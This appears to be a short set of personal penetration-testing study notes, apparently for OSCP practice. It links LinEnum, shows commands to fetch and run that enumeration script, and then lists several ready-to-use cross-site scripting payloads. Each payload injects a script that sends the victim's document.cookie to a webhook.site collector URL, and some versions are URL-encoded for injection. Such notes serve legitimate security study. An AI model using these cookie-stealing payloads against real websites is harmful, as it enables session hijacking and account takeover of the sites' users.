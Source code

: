 ### 26082023Sat

[OSCP - How to Take Effective Notes](https://youtu.be/yYmDQY1zKKE?list=PLDrNMcTNhhYqZU1ySROli7Oc08mxe1tZR)

https://www.youtube.com/@c0nd4

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

```
wget -c https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

![[Pasted image 20230826201506.png]]

```
bash LinEnum.sh
```

https://github.com/GreyCorbel/admpwd/blob/master/Main/AdmPwd.PS/AdmPwd.PS.psd1

<script>
	document.write('<img src="[URL]?c='+document.cookie+'" />');
	</script>

<script>document.write('<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221/?c='%2bdocument.cookie%2b'" />');</script>

```
<script>document.write('<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221/?c='%2bdocument.cookie%2b'"/>')</script>
```

```
<script>document.write('<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221/?c='%2bdocument.cookie%2b'"/>')</script>
```

```xml
<img src="[URL]?c=[COOKIE]"/>
```

```
<img src="https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221?c=[COOKIE]"/>
```

https://webhook.site/343c0d6b-b0bb-488a-a276-a479c4c19221
